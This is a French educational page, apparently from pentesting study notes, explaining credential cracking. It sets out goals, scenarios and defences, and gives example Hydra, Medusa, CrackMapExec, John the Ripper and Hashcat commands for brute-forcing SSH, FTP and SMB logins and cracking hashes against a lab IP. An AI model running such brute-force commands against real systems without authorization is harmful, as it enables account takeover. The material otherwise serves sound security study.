 ```yaml
---
title: Credential Cracking
date: "2025-07-15"
draft: false
---
```


# 🔑 Credential Cracking

## Qu'est-ce que le Credential Cracking ?

Le credential cracking consiste à deviner ou casser des identifiants (mots de passe, clés) pour accéder à un système ou un service.

## 🎯 Objectifs pédagogiques

- Comprendre les techniques de cassage de mots de passe
- Savoir utiliser des outils de brute force

## 📋 Exemples de scénarios et commandes

- Utiliser Hydra pour tester des mots de passe sur un service SSH
- Exploiter une fuite de hash pour casser un mot de passe avec John the Ripper
- Automatiser des attaques de brute force sur des formulaires web

## 🛡️ Bonnes pratiques

- Imposer des mots de passe forts et une politique de rotation
- Mettre en place une détection d'intrusion sur les tentatives de connexion
- Utiliser l'authentification multi-facteur

## 📚 Ressources utiles

- [OWASP - Password Attacks](https://owasp.org/www-community/attacks/Password_Attacks)
- [HackTricks - Password Cracking](https://book.hacktricks.xyz/pentesting/password-cracking)

## 🛠️ Outils et commandes les plus utilisés

- **Hydra** : Brute force sur SSH, FTP, HTTP, etc.
  ```bash
  hydra -l admin -P wordlist.txt ssh://10.10.10.10
  hydra -L users.txt -P passwords.txt ftp://10.10.10.10
  ```
- **John the Ripper** : Casser des hashs
  ```bash
  john --wordlist=rockyou.txt hash.txt
  ```
- **Hashcat** : Casser des hashs GPU
  ```bash
  hashcat -m 0 -a 0 hash.txt rockyou.txt
  ```
- **Medusa** : Brute force multi-protocoles
  ```bash
  medusa -h 10.10.10.10 -u admin -P wordlist.txt -M ssh
  ```
- **CrackMapExec** : Attaques sur SMB/RDP
  ```bash
  crackmapexec smb 10.10.10.10 -u users.txt -p passwords.txt
  ```

---

_Dernière mise à jour : 15 juillet 2025_
